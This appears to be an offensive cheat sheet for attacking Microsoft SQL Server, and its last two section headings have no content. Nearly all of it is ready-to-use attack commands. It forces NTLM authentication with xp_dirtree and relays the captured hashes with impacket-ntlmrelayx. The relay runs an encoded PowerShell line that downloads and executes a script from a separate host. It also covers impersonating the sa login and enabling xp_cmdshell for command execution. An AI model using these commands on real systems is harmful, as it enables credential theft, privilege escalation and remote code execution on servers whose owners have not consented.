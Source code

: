 **CONNECTION AND AUTHENTICATION TO THE SERVER:**

Generally the easiest ones to use are impacket-mssqlclient(to connect from linux) and the sqlcmd utility(to connect from windows). When using impacket-mssqlclient with active directory domain authentication don't forget the "-windows-auth" flag!
IMPORTANT: Mainly all commands specified in this document are meant to be thrown through an impacket-mssqlclient or sqlcmd shell.

**UNC PATH Injection and Hash Relaying:**

Throw this command and verify that the authentication with you SMB server was successful:
```
xp_dirtree \\192.168.1.1\test\
```
You can easily create your SMB server with impacket:
```
~# impacket-smbserver test $(pwd) -smb2support
```
To relay the Net-NTLMv2 hash that you obtained with the xp_dirtree command you can use impacket-ntmlrelayx:
```
~# impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AC
kALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAu
ADEAMQA4AC4AOQA6ADgAMQAvAHIAdQBuAC4AcABzADEAJwApACAAfAAgAEkARQBYAA=='
```

**PRIVILEGE ESCALATION:**

To view the users you can impersonate:
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```
To impersonate(assuming you can impersonate the sa user):
```
EXECUTE AS LOGIN = sa
```

**CODE EXECUTION(through xp_cmdshell):**

Use this commands at this order:

1st ```"EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;```

2nd ```EXEC xp_cmdshell whoami```

**CODE EXECUTION ON A LINKED MSSQL SERVER:**


**PRIVILEGE ESCALATION THROUGHA LINKED MSSQLSERVER:**





